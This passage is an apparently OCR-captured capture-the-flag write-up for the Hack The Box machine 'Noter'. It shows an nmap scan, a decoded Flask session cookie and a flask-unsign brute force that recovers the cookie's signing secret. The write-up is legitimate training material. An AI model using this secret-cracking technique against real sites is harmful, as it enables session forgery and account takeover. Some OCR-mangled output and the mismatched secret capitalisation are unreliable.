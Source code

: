 Noter HTB  
level Medium

Nmap scan  

# Nmap 7.92 scan initiated Mon May  9 10:22:59 2022 as: nmap -sCV -o nmap 10.129.59.70
Nmap scan report for 10.129.59.70
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  9 10:23:32 2022 -- 1 IP address (1 host up) scanned in 33.19 seconds

The scan reveal 3 open port classic ssh on 22, 21 on ftp and 5000 http
ftp is not  allowed to anonymous login

Connecting to http on 5000 in browser. A web page is running called Noter 
It look like python flask framework

It allowd to register account  

Register and login  as user. We have some function  like add notes and noter editer. Additionly it use a thirdparty script to edit 
the notes which is called "ckediter".

Nothing much intersting  with that functions

Check the cookie it use the flask session cookies to manage the sessions

encoded cookie

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidXNlciJ9.YnjkQg.qfVnrJ8yVPJ0J_HLEnsrY6IJXMc

decoded cookie

{'logged_in': True, 'username': 'user'}

Normaly the flask session cookies are signed with a secret. We need to identify the secert to modify
the cookie

Bruteforce the secret with tool called flask-sign

flask-unsign --unsign --cookie < cookie.txt 
[*] Session decodes to: {'logged_in': True, 'username': 'user'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (1792): -----BEGIN PRIVATE KEY-----***
[+] Found secret key after 17024 attemptsdsInfoexampl
'secret123'

Found the secret "Secret123"



